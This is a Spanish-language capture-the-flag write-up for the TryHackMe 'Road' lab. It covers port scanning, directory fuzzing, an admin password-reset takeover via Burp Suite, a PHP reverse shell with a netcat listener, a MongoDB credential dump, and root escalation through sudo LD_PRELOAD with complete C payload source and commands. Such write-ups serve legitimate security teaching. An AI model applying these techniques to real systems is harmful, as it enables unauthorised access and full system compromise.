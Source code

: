 ```yaml
---
title: "road"
description: "road"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/road

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.141.243
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603211641.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.141.243
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603211720.png)

## Fuzzing

````
gobuster dir -u http://10.10.141.243 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603212307.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603212514.png)
Nos registramos
Vemos que usuario admin es admin@sky.thm

# Fase de ataque

Tenemos un apartado para cambiar la contraseña del usuario registrado sin tener la contraseña anterior , podemos intentar capturar la petición mediante Burp Suite y cambiar mi usuario por el de administrador
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603213142.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603213258.png)
Login como admin exitoso!

# LGI to PHP reverse shell

Copiamos una reverse shell
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603214141.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603214526.png)
Lo subimos al servidor
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603214357.png)
Nos ponemos en escucha por el puerto 443 para recibir la Shell

````
nc -nlvp 443
````

Buscamos
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603214736.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

````
stty rows 44 columns 184
````

# Privilege Escalation

ver puertos abiertos expuestos en localhost

````
ss -tl
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603220502.png)
Nos conectamos al mongo
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603221202.png)

````
show dbs
use backup
db.user.find()
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240603221642.png)
BahamasChapp123!@#

## Pivoting a otro usuario

Buscamos privilegios del usuario

````
sudo -l
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240604200837.png)
Vemos que tiene una variable y lo encontramos en https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path

## LD_PRELOAD

1. Creamos un programa en C en /tmp que lanza una terminal root llamdo shell.c

````
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
````

2. Compilamos

````
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
````

Se crea un archivo shell.so
3. Ejecutamos el shell con el comando con privilegios

````
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
````

\[+\] ==pwned!==
